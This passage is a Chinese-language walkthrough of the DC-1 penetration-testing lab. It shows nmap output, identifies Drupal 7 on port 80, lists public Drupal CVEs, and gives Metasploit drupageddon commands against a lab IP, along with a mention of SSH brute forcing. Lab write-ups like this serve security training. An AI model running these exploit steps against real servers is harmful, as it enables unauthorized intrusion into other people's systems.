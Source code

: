 ```
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          32916/tcp6  status
|   100024  1          34020/udp6  status
|   100024  1          38872/tcp   status
|_  100024  1          60167/udp   status
```

可见开放了 22、80、111 3个端口,且 80 端口运行着 Drupal 这个 CMS

那么,下面就是对目前已经收集到了信息进行进一步利用
```
Drupal 7 漏洞利用 SSH 梭哈爆破
```

---

# 中期-漏洞利用

从之前的 nmap 结果得知，目标 80 端口运行着 Drupal 7 版本的 CMS，那么其实有很多公开的 CVE EXP 可供使用

- CVE-2014-3704
- CVE-2018-7600
- CVE-2018-7602
- CVE-2019-6339
- CVE-2019-6341

CVE-2018-7602、CVE-2019-6339、CVE-2019-6341 需要认证，这里就懒得测了，以 CVE-2014-3704 和 CVE-2018-7600 为例,Metasploit 自带这2个漏洞的 EXP
```bash
msfconsole
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.141.135    
run
set RHOSTS 192.168.141.135 : 这里设置反射的远程地址
```

![image-20240205181951029](assets/DC-1/sessions.png)

